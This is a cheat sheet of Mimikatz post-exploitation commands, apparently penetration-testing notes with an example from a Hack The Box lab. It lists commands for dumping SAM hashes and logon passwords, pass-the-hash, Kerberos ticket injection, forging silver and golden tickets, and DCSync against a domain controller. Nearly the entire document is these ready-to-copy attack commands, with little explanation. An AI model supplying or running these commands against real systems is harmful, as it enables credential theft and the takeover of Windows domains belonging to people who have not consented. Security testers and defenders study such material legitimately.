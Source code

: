 # Mimikatz

## Mimikatz

Post exploitation commands must be executed from SYSTEM level privileges.

* mimikatz \# privilege::debug
* mimikatz \# token::whoami
* mimikatz \# token::elevate
* mimikatz \# lsadump::sam
* mimikatz \# sekurlsa::logonpasswords

### Pass The Hash

* mimikatz \# sekurlsa::pth /user:username /domain:domain.tld /ntlm:ntlm\_hash

### Inject generated TGS key

* mimikatz \# kerberos::ptt 

### Generating a Silver Ticket

AES 256 Key:

* mimikatz \# kerberos::golden /domain:/sid: /aes256: /user: /service: /target:

AES 128 Key:

* mimikatz \# kerberos::golden /domain:/sid: /aes128: /user: /service: /target:

NTLM:

* mimikatz \# kerberos::golden /domain:/sid: /rc4: /user: /service: /target:

### Generating a Golden Ticket

AES 256 Key:

* mimikatz \# kerberos::golden /domain:/sid: /aes256: /user:

AES 128 Key:

* mimikatz \# kerberos::golden /domain:/sid: /aes128: /user:

NTLM:

* mimikatz \# kerberos::golden /domain:/sid: /rc4: /user:

### DCSync

DCSync with mimikatz:

```bash
lsadump::dcsync /user:administrator /domain:htb.local /dc:sizzle
```

